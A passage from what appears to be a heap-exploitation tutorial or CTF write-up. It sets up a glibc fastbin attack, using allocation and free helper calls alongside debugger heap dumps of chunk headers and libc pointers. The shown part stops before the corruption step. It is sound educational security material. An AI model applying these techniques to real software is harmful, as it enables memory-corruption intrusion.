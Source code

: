 
### _Fastbin Attack_

Before I begin explaining the hows and whys of the fastbin attack, I'd like to give a huge shoutout to shellphish who created the [how2heap](https://github.com/shellphish/how2heap) repo which basically documents modern heap exploitation techniques. I highly recommend going through the code examples and figuring out the heap internals by tweaking and debugging.

Let's get started. First we'll bring heap to its original state so we can have a fresh start. Though it's not necessary, I like keeping things clean and simple. Those who were paying close attention can figure out how to do that.

```python
free(1)
```

```makefile
0x617c10:   0x0000000000000000  0x00000000000203f1 <-- new top chunk
0x617c20:   0x00007ffff7530b78  0x00007ffff7530b78
0x617c30:   0x0000000000000000  0x0000000000000000
0x617c40:   0x0000000000000000  0x0000000000000000
0x617c50:   0x0000000000000000  0x0000000000000000
0x617c60:   0x0000000000000000  0x0000000000000000
0x617c70:   0x0000000000000000  0x0000000000000000
0x617c80:   0x0000000000000000  0x0000000000000000
0x617c90:   0x0000000000000000  0x0000000000000000
0x617ca0:   0x0000000000000090  0x0000000000000090
0x617cb0:   0x4242424242424242  0x00000000000a4242
0x617cc0:   0x0000000000000000  0x0000000000000000
0x617cd0:   0x0000000000000000  0x0000000000000000
0x617ce0:   0x0000000000000000  0x0000000000000000
0x617cf0:   0x0000000000000000  0x0000000000000000
0x617d00:   0x0000000000000000  0x0000000000000000
0x617d10:   0x0000000000000000  0x0000000000000000
0x617d20:   0x0000000000000000  0x0000000000000000
0x617d30:   0x0000000000000000  0x00000000000202d1 <-- old top chunk
```

The heap has been "re-initialized" by consolidating the last remaining chunk with the wilderness / top chunk and it's ready for new use, or abuse ;)

Someone could assume that the fastbin attack is related to fastbins. That's indeed the case. We're about to exploit the way `malloc` serves / checks free'd fast chunks to the user. Let's create 2 chunks of fastbin size and one of smallbin size to be used as a border in order to prevent consolidation (don't pay attention on that one).

```python
alloc(0x60, 'C'*10) # chunk 2
alloc(0x60, 'D'*10) # chunk 3
alloc(0x80, 'E'*10) # chunk 4
```

```makefile
0x617c10:   0x0000000000000000  0x0000000000000071 <-- chunk 2
0x617c20:   0x4343434343434343  0x00007ffff70a4343
0x617c30:   0x0000000000000000  0x0000000000000000
0x617c40:   0x0000000000000000  0x0000000000000000
0x617c50:   0x0000000000000000  0x0000000000000000
0x617c60:   0x0000000000000000  0x0000000000000000
0x617c70:   0x0000000000000000  0x0000000000000000
0x617c80:   0x0000000000000000  0x0000000000000071 <-- chunk 3
0x617c90:   0x4444444444444444  0x00000000000a4444
0x617ca0:   0x0000000000000090  0x0000000000000090
0x617cb0:   0x4242424242424242  0x00000000000a4242
0x617cc0:   0x0000000000000000  0x0000000000000000
0x617cd0:   0x0000000000000000  0x0000000000000000
0x617ce0:   0x0000000000000000  0x0000000000000000
0x617cf0:   0x0000000000000000  0x0000000000000091 <-- chunk 4
```